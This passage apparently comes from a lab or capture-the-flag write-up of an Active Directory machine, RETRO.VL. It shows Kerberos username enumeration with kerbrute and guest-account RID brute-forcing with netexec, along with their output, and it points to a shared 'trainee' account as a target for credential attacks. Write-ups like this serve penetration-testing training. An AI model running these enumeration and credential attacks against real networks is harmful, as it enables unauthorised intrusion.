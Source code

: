 This document reveals a critical security weakness: the organization has implemented a shared account system for trainees, likely with weak password policies. This suggests that credential attacks against the `trainee` account may be successful.

---

# Phase 3: User Enumeration

With initial intelligence gathered, we proceed to enumerate valid domain users through Kerberos pre-authentication attacks.

### Kerberos User Enumeration

```
~/Tools/kerbrute_linux_amd64 userenum /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt --dc 10.10.83.167 --domain RETRO.VL

    __             __               __
   / /_____  _____/ /_  _______  __/ /____
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/

Version: v1.0.3 (9dad6e1) - 08/23/25 - Ronnie Flathers @ropnop

2025/08/23 12:03:15 >  Using KDC(s):
2025/08/23 12:03:15 >   10.10.83.167:88

2025/08/23 12:03:18 >  [+] VALID USERNAME:       guest@RETRO.VL
2025/08/23 12:03:25 >  [+] VALID USERNAME:       administrator@RETRO.VL
2025/08/23 12:04:54 >  [+] VALID USERNAME:       tblack@RETRO.VL
2025/08/23 12:05:18 >  [+] VALID USERNAME:       banking@RETRO.VL
2025/08/23 12:06:51 >  [+] VALID USERNAME:       trainee@RETRO.VL
2025/08/23 12:35:44 >  [+] VALID USERNAME:       jburley@RETRO.VL
```

The Kerberos enumeration reveals several valid usernames, including the `trainee` account mentioned in the intelligence document. The presence of a `banking` user is particularly interesting and may indicate additional attack vectors.

### RID Brute Force Enumeration

```
netexec smb 10.10.83.167 -u 'guest' -p '' --rid-brute

SMB         10.10.83.167    445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:retro.vl) (signing:True) (SMBv1:False) (Null Auth:True)
SMB         10.10.83.167    445    DC               [+] retro.vl\guest:
SMB         10.10.83.167    445    DC               498: RETRO\Enterprise Read-only Domain Controllers (SidTypeGroup)
SMB         10.10.83.167    445    DC               500: RETRO\Administrator (SidTypeUser)
SMB         10.10.83.167    445    DC               501: RETRO\Guest (SidTypeUser)
SMB         10.10.83.167    445    DC               502: RETRO\krbtgt (SidTypeUser)
SMB         10.10.83.167    445    DC               512: RETRO\Domain Admins (SidTypeGroup)
SMB         10.10.83.167    445    DC               513: RETRO\Domain Users (SidTypeGroup)
SMB         10.10.83.167    445    DC               514: RETRO\Domain Guests (SidTypeGroup)
SMB         10.10.83.167    445    DC               515: RETRO\Domain Computers (SidTypeGroup)
SMB         10.10.83.167    445    DC               516: RETRO\Domain Controllers (SidTypeGroup)
SMB         10.10.83.167    445    DC               517: RETRO\Cert Publishers (SidTypeAlias)
SMB         10.10.83.167    445    DC               518: RETRO\Schema Admins (SidTypeGroup)
SMB         10.10.83.167    445    DC               519: RETRO\Enterprise Admins (SidTypeGroup)
SMB         10.10.83.167    445    DC               520: RETRO\Group Policy Creator Owners (SidTypeGroup)
SMB         10.10.83.167    445    DC               521: RETRO\Read-only Domain Controllers (SidTypeGroup)
```